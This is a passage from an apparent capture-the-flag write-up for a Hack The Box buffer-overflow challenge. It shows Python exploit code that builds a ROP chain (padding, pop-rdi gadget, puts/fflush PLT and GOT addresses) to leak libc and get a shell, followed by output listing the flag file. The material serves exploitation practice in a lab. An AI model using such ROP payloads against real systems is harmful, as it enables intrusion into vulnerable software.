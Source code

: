 ```Python
    conn.send("ls\n")

    # What do we get back?
    print "got back:"
    print conn.recv(1024)





PAD = "A" * 72

main_addr = ptr(0x400626)
gadget_pop_rdi_ret = ptr(0x4006d3)
puts_plt = ptr(0x4004e0)
fflush_plt = ptr(0x400510)

puts_got = ptr(0x601018)
NULL = ptr(0x0)

payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

payload += main_addr            # After the fflush, go to main again
                                # Ask the attacker for input again!

remote(payload)

```

We get back:

```
connecting to  ('docker.hackthebox.eu', 35076)
ROP me outside, how 'about dah?

connected. sending data
�����
ROP me outside, how 'about dah?

Virtual address of puts is: 0x7fceeffdb690
Base of libc: 0x7fceeff6c000
Address of system:  0x7fceeffb1390
Address of binsh:  0x7fcef00f8d17
got back:
flag.txt
ropme
spawn.sh
```
